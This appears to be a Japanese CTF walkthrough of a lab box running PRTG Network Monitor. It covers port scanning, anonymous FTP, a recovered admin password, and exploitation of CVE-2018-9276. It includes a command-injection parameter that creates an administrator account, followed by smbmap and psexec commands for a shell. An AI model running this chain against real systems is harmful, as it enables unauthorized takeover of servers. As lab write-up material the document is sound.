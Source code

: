 # 1\. Port scan

$ip=10.10.10.152

sudo nmap -sC -sV -Pn $ip

![1dfd4d44741420e55839ab10e1dbb0fa.png](../_resources/1dfd4d44741420e55839ab10e1dbb0fa.png)

![27420e565b7a11bf3adebdabf2a687bb.png](../_resources/27420e565b7a11bf3adebdabf2a687bb.png)

上記スキャン結果からFTPのパスワードが設定されていないことを確認。

user.txtをダウンロードした結果flagだった事を確認。

users.txt

ポートスキャンの内容から検知したサービスの情報と思われるものを

確認。

![51a94b536837f577c9c34c647e436b87.png](../_resources/51a94b536837f577c9c34c647e436b87.png)

https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data

![b889331759fa829a866f148806fc1c00.png](../_resources/b889331759fa829a866f148806fc1c00.png)

デフォルトのインストール先がprogramdataに設定されている事を

Paessler公式ページのSUPPORTから確認。

`ls -la`

hidden属性を含めたファイルを表示

nmapで検出したサービス名と同じディレクトリを発見

`cd Paessler`

`cd ./"PRTG Network Monitor"`

バックアップデータをダウンロード

![631bd6e0a4b0f01c01dc659089242aaa.png](../_resources/631bd6e0a4b0f01c01dc659089242aaa.png)

バックアップを確認した結果

ファイル内のcredentialを表示した結果ユーザ名とパスワードを発見

![8dfe2f19e004d2edd065cd7c9bc91caa.png](../_resources/8dfe2f19e004d2edd065cd7c9bc91caa.png)

記載してるユーザ情報でログインを試したが失敗

![d1c0f3386449415d710e8c67f61322f6.png](../_resources/d1c0f3386449415d710e8c67f61322f6.png)

パスワードは PrTg@dmin2018
ではなくPrTg@dmin2019と推測

![2f6b29b3a0646ad3a86c086fafabeb40.png](../_resources/2f6b29b3a0646ad3a86c086fafabeb40.png)

ログイン成功

![53f6aee3f9146c7ff86701b83b2c3013.png](../_resources/53f6aee3f9146c7ff86701b83b2c3013.png)

[https://github.com/A1vinSmith/CVE-2018-9276を参照して](https://github.com/A1vinSmith/CVE-2018-9276%E3%82%92%E5%8F%82%E7%85%A7%E3%81%97%E3%81%A6)

攻撃を実施

setup→

Account Settings →

Notifications→

Add new Notification

![94a809760f8a5f772e7cb1af9c5decf9.png](../_resources/94a809760f8a5f772e7cb1af9c5decf9.png)

program file Demo exe notification – outfile.ps1

parameterにtest.txt;net user pentestop P3nT3st! /add;net localgroup administrators pentestop /add

既存の管理者グループにpentestopユーザとP3nT3st! の情報を追加してするコマンドをtest.txtに追加する

username prtgadmin

password PrTg@dmin2018を入力

**CVE-2018-9276**

\*\*PRTGNetworkMoniterに関する脆弱性。\*\***この脆弱性はバージョン18.2.39以前のバージョンで見つかりました。****このバージョンのPRTG管理者ウェブコンソールに管理者権限を持つ攻撃者がアクセスした場合、センサーや****通知管理シナリオで不正なパラメータを送信することで、OSコマンドインジェクションの脆弱性が悪用されます。**

![cbde80e4a400777524f6e963e918884f.png](../_resources/cbde80e4a400777524f6e963e918884f.png)

OSインジェクションを実施

作成したNotificationを実行

![bfba5762ac2138df97a5922022fc8968.png](../_resources/bfba5762ac2138df97a5922022fc8968.png)

pentestopユーザを作成

`smbmap -H 10.10.10.152 -u pentestop -p 'P3nT3st!'`

smbmapで確認した結果、管理者権限でC$に接続できる事を確認。

![1a5ec544d7e4ed8939519bb0567bac9e.png](../_resources/1a5ec544d7e4ed8939519bb0567bac9e.png)

`python3 psexec.py 'pentestop:P3nT3st!@10.10.10.152'`

![95ee0d18ab01d774214508f076c59022.png](../_resources/95ee0d18ab01d774214508f076c59022.png)

rootを取得

![6a5c94e8da760a84627b33b47e9202c2.png](../_resources/6a5c94e8da760a84627b33b47e9202c2.png)